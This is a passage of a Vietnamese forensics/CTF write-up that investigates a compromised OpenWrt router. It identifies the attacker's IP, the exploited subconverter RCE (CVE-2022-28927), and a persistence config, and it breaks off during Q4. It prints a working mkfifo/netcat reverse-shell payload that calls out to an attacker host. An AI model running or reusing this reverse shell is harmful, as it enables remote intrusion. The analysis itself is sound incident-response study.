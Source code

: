 ## Q2: What is the IP address of the attacker's machine?

Tiếp tục xem qua các file trong hệ thống thì trong `passwd` thấy rằng chỉ có duy nhất người dùng `root` có thể thực hiện lệnh shell. Vậy nếu hacker muốn thực hiện lệnh trên con router sẽ phải qua `root`, cho nên vào trong thư mục `root/` để kiểm tra

```
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
```

Người dùng root có tải phần mềm `subconverter` và trong phần cache của chương trình đó có lệnh thực hiện một reverse shell bằng javascript `root/subconverter/cache/dad176d5807526bf19069ecce4f14bfe`

```js
function parse(x) {
        os.exec([ "sh", "-c", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 156.238.233.47 31426 >/tmp/f" ], { file: "sh" })
}
```

Hàm này mở 1 reverse shell kết nối đến **156.238.233.47:31426**, đây cũng chính là IP của hacker

`156.238.233.47`

## Q3: What is the CVE number of the vulnerability exploited by the attacker?

Biết được hacker đã sử dụng `subconverter` để tạo reverse shell, tìm `subconverter rce cve` trên google sẽ thấy kết quả **[CVE-2022-28927](https://www.cvedetails.com/cve/CVE-2022-28927)**

> A remote code execution (RCE) vulnerability in Subconverter v0.7.2 allows attackers to execute arbitrary code via crafted config and url parameters.

`CVE-2022-28927`

## Q4: What program's configuration was modify by the attacker to do persistence?

Trước hết kiểm tra trong `/etc/config` xem có những phần mềm nào nổi bật không, thấy có `luci`, đây là giao diện cấu hình của openwrt

``` 
config extern 'flash_keep'
	option uci '/etc/config/'
	option dropbear '/etc/dropbear/'
	option openvpn '/etc/openvpn/'
	option passwd '/etc/passwd'
	option opkg '/etc/opkg.conf'
	option firewall '/etc/firewall.user'
	option uploads '/lib/uci/upload/'
```
